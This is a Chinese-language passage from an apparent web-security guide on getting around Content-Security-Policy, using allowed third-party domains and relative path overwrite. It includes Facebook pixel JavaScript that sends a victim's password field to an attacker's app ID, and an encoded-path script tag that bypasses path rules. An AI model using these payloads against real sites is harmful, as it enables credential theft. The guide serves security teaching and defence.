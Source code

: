 如果您在目标的CSP中发现任何允许的域名，您可能能够通过在第三方服务上注册来绕过CSP，并将数据提取到该服务或执行代码。

例如，如果您发现以下CSP：
```
Content-Security-Policy​: default-src 'self’ www.facebook.com;​
```
或
```
Content-Security-Policy​: connect-src www.facebook.com;​
```
您应该能够提取数据，类似于使用 [Google Analytics](https://www.humansecurity.com/tech-engineering-blog/exfiltrating-users-private-data-using-google-analytics-to-bypass-csp)/[Google Tag Manager](https://blog.deteact.com/csp-bypass/) 一直以来的做法。在这种情况下，您遵循以下一般步骤：

1. 在此处创建一个 Facebook 开发者帐户。
2. 创建一个新的“Facebook 登录”应用并选择“网站”。
3. 转到“设置 -> 基本”，获取您的“应用 ID”
4. 在您想要提取数据的目标网站中，您可以通过“customEvent”和数据负载直接使用 Facebook SDK 小工具“fbq”来提取数据。
5. 转到您的应用“事件管理器”，选择您创建的应用（请注意，事件管理器可以在类似于此的 URL 中找到：https://www.facebook.com/events\_manager2/list/pixel/\[app-id]/test\_events）
6. 选择“测试事件”选项卡，以查看“您的”网站发送的事件。

然后，在受害者一侧，您执行以下代码以初始化 Facebook 跟踪像素，指向攻击者的 Facebook 开发者帐户应用 ID，并发出如下自定义事件：
```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```
关于前表中指定的其他七个第三方域名，还有许多其他方法可以滥用它们。请参考之前的 [blog post](https://sensepost.com/blog/2023/dress-codethe-talk/#bypasses) 以获取有关其他第三方滥用的更多解释。

### 通过 RPO（相对路径覆盖）绕过 <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

除了上述重定向以绕过路径限制外，还有一种称为相对路径覆盖（RPO）的技术可以在某些服务器上使用。

例如，如果 CSP 允许路径 `https://example.com/scripts/react/`，则可以通过以下方式绕过：
```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```
浏览器最终将加载 `https://example.com/scripts/angular/angular.js`。

这之所以有效，是因为对于浏览器来说，您正在加载一个名为 `..%2fangular%2fangular.js` 的文件，该文件位于 `https://example.com/scripts/react/` 下，这符合 CSP。

∑，它们将解码它，有效地请求 `https://example.com/scripts/react/../angular/angular.js`，这等同于 `https://example.com/scripts/angular/angular.js`。

通过 **利用浏览器和服务器之间 URL 解释的不一致性，可以绕过路径规则**。

解决方案是确保服务器端不将 `%2f` 视为 `/`，以确保浏览器和服务器之间的一致解释，从而避免此问题。

在线示例：[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)
